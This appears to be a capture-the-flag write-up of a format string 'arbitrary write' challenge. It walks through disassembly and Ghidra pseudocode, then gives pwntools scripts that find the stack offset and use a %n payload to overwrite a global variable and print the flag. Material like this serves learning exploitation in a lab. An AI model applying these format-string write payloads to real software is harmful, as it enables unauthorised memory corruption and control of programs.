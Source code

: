 ```yaml
---
weight: 15
title: "Format String - Write"
date: 2020-05-06T21:29:01+08:00
description: "format string vulnerability 2"
tags: ["Binary Exploitation Series"]
type: post
showTableOfContents: true
---
```


# Arbitrary Write 

# ⚖️ Challenge Write-up

---

# General Analysis

![Untitled.png](https://hackmd.io/_uploads/SyfnQ38Qa.png)

- Similar to previous challenge we have format string vulnerability in this challenge also

```nasm
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010c0  putchar@plt
0x00000000004010d0  puts@plt
0x00000000004010e0  fclose@plt
0x00000000004010f0  __stack_chk_fail@plt
0x0000000000401100  printf@plt
0x0000000000401110  fgetc@plt
0x0000000000401120  fopen@plt
0x0000000000401130  __isoc99_scanf@plt
0x0000000000401140  exit@plt
0x0000000000401150  _start
0x0000000000401180  _dl_relocate_static_pie
0x0000000000401190  deregister_tm_clones
0x00000000004011c0  register_tm_clones
0x0000000000401200  __do_global_dtors_aux
0x0000000000401230  frame_dummy
0x0000000000401236  main
0x0000000000401350  __libc_csu_init
0x00000000004013c0  __libc_csu_fini
0x00000000004013c8  _fini
pwndbg>
```

- So we see that there is only one function of interest to us and that is none other than **main.**

```markdown
0x00000000004012b5 <+127>:   mov    eax,DWORD PTR [rip+0x2db9]        # 0x404074 <target>
0x00000000004012bb <+133>:   cmp    eax,0x3
0x00000000004012be <+136>:   jne    0x401331 <main+251>
```

- So we see that target’s value is compared to 3, and if there is a mismatch then we kinda exit.

# ghdira-view

```c
pseudo-c Code

undefined8 main(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  char local_81;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Enter String - ");
  __isoc99_scanf(&DAT_00402014,local_78);
  printf("You Entered - ");
  printf(local_78);
  printf("\nValue Of Target Is - %d\n",target);
  if (target == 3) {
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      puts("flag file not found");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    iVar1 = fgetc(__stream);
    local_81 = (char)iVar1;
    while (local_81 != -1) {
      putchar((int)local_81);
      iVar1 = fgetc(__stream);
      local_81 = (char)iVar1;
    }
    fclose(__stream);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
**As we can see we are never modifying the value of target, thus we need to write the value using
format string vulnerability**
```

# Exploit to find where is our input going

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'
for i in range(1,50):
    io = process('./fmt_write')
    payload = f'AAAAAAAA.%{i}$p'
    io.sendline(payload)
    print(io.recvall(),i)
    io.close()
```

# Output

```markdown
b'Enter String - You Entered - AAAAAAAA.0x65746e4520756f59\nValue Of Target Is - 0\n' 1
b'Enter String - You Entered - AAAAAAAA.(nil)\nValue Of Target Is - 0\n' 2
b'Enter String - You Entered - AAAAAAAA.(nil)\nValue Of Target Is - 0\n' 3
b'Enter String - You Entered - AAAAAAAA.0xa\nValue Of Target Is - 0\n' 4
b'Enter String - You Entered - AAAAAAAA.0x1e\nValue Of Target Is - 0\n' 5
b'Enter String - You Entered - AAAAAAAA.0x8000\nValue Of Target Is - 0\n' 6
b'Enter String - You Entered - AAAAAAAA.0x32800000000\nValue Of Target Is - 0\n' 7
**b'Enter String - You Entered - AAAAAAAA.0x4141414141414141\nValue Of Target Is - 0\n' 8**
b'Enter String - You Entered - AAAAAAAA.0x702439252e\nValue Of Target Is - 0\n' 9
b'Enter String - You Entered - AAAAAAAA.0x400000001\nValue Of Target Is - 0\n' 10
....
```

- Exploit to write the the target’s value (`0000000000404074 B target`)

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

io = process('./fmt_write')
payload = b'ABC%9$nD' + p64(0x0000000000404074)
io.sendline(payload)
print(io.recvall())
io.close()
```

# Explanation

```markdown
After we gave found where target's value is stored, we write 3 in the address using the given
exploit.
```

# Output

```markdown
b'Enter String - You Entered - ABCDt@@\nValue Of Target Is - 3\nFLAG{Wr1t3_Wh3r3_Y0u_W4nt_t0}'
```